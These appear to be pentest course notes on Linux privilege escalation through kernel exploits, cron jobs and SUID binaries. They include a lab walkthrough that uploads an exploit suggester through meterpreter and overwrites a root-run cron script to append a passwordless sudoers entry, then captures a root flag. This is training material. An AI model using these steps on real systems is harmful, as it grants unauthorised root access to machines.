# Linux Kernel Exploits
- Kernel exploits on Linux will typically target vulnerabilites in the Linux kernel to execute arbitrary code in order to run privileged system commands or to obtain a system shell.
- This process will differ based on the Kernel version and distribution being targeted and the kernel exploit being used.
- Privesc on Linux systems will typically follow the following methodology:
  - Identifying kernel vulnerabilities
  - Downloading, compiling and transferring kernel exploits onto the target system.

## Tools & Environment
- Linux-Exploit-Suggester - This tool is designed to assist in detecting security deficiencies for given Linux kernel/Linux-based machine. It assesses (using heuristics methods) the exposure of the given kernel on every publicly known Linux kernel exploit.

## Demo: Linux Kernel Exploits

After we obtained a meterpreter session, we enumerate info:

`sysinfo`

`getuid`

www-data is a service account which is often used on linux system which host a webserver.
`shell`

`/bin/bash -i`

`cat /etc/passwd`

`sudo apt-get update`

We use the Linux Exploit Suggester:

meterpreter: `CD /TMP`

meterpreter: `ls`

meterpreter: `upload ~/Desktop/Linux-Enum/les.sh`

meterpreter: `shell`

meterpreter: `ls`

meterpreter: `chmod +x les.sh`

meterpeter: `ls -alps`

meterpeter: `./les.sh`

Gives us Exploits and OS information. We download the exploit from the website. Navigate to the Exploit download.

# Exploiting misconfigured Cron Jobs

## Understanding Cron Jobs

    Cron: A time-based service in Linux used to schedule and automate tasks.
    Cron Job: A task scheduled to run via Cron, such as backups or system upgrades.
    Crontab File: The configuration file where Cron jobs are stored.

## Privilege Escalation Using Cron Jobs

    Cron Jobs as Root: If misconfigured, Cron jobs running as "root" can be exploited for root access.

## Demo: Using Cronjob

  `whoami`
  Displays the current user’s username.

  `groups student`
  Shows the groups that the "student" user belongs to.

  `cat /etc/passwd`
  Displays the content of the /etc/passwd file, revealing user account information.

  `crontab -l`
  Lists the Cron jobs scheduled for the current user.

  `ls -al`
  Lists all files and directories in the current directory with detailed information.

  `cat message`
  Displays the content of the "message" file.

  `pwd`
  Prints the current working directory.

  `cd /`
  Changes the directory to the root (/) of the filesystem.

  `grep -rnw /usr -e "/home/student/message"`
  Recursively searches for the string "/home/student/message" in files under /usr.

  `ls -al /tmp`
  Lists all files in the /tmp directory with detailed information.

  `cat /tmp/message`
  Displays the content of the "message" file in the /tmp directory.

  `ls -al /usr/local/share/copy.sh`
  Lists detailed information about the copy.sh script.

  `cat /usr/local/share/copy.sh`
  Displays the content of the copy.sh script.

  `printf '#! /bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' >
/usr/local/share/copy.sh`
  Creates or modifies the copy.sh script to add a command that gives the "student" user root privileges.

  `sudo -l`
  Lists the commands that the current user can run with sudo.

  `sudo su`
  Switches to the root user if allowed by sudo.

  `whoami`
  Confirms the current user, which should now be root.

  `cd /root`
  Changes the directory to the root user's home directory.

  `ls`
  Lists files in the current directory.

  `cat flag`
  Displays the content of the "flag" file.

  `crontab -l`
  Re-checks the scheduled Cron jobs to verify any changes.

# Exploiting SUID Binaries
- In addition to the three main file access permissions (read, write and execute), Linux also provides users with specialised permissions that can be utilized in specific situations. One of these access permissions is the SUID (Set Owner User ID) permission.
- When applied, this permission provides users with the ability to execute a script or binary with the permissions of the file owner as opposed to the user that is running the script or binary.
- SUID permissions are typically used to provide unprivileged users with the ability to run specific scripts or binaries with "root" permissions. It is to be noted, however, that the provision of elevate privileges is limited to the execution of the script and does not translate to elevation of privileges, however, if inproperly configured unprivileged users can exploit misconfigurations or vulnerabilities within the binary or script to obtain an elevated session.




